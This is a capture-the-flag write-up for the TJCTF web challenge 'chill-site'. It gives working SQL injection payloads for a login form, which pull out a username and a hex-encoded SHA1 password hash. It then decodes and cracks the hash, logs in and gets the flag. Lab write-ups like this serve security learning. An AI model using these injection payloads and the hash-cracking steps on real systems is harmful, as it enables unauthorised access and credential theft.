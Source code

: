 ```yaml
---
layout: post
title:  "TJCTF write ups"
date:   2025-06-10 18:34:15 +0900
categories: CTF Writeups
---
```


## WEB/chill-site

### Challenge Summary

We are provided with a login form that is vulnerable to SQL injection. Our objective is to extract credentials and obtain the flag.

### Step 1: SQL Injection - Get Username

**Payload used in username input:**

```sql
' UNION SELECT user, 'filtered', time FROM database /*
```

This reveals a username:

```sql
tuxtheflagmasteronlylikeslowercaseletters
```

### Step 2: SQL Injection - Get Password Hash

**Payload used in username input:**

```sql
' UNION SELECT user, hex(pass), time FROM database /*
```

This reveals the password hash (in hex):

```sql
36346237633930613939313537316331303763633636336161373638353134383232383936663439
```

### Step 3: Decode the Hex

Convert the hex to ASCII:

```sql
64b7c90a991571c107cc663aa768514822896f49
```

### Step 4: Crack the Hash

Use [hashes.com](https://hashes.com/en/decrypt/hash) to crack the SHA1 hash:

```sql
Password: allsgud
```

### Step 5: Login

Use the obtained credentials:

- **Username:** `tuxtheflagmasteronlylikeslowercaseletters`
- **Password:** `allsgud`

### Step 6: Capture the Flag

After logging in, click "Yes" to receive the flag:

```sql
tjctf{3verth1ng_i5_fin3}
```
